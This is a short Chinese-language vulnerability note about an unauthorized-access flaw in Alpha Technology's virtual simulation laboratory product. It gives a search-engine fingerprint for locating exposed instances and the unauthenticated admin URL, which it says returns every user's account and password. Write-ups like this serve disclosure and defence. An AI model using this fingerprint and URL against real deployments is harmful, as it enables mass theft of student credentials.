 # 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

# 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

```
虚拟仿真实验室
```

## 网络测绘

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```

![](/images/202202101929331.png)



成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/


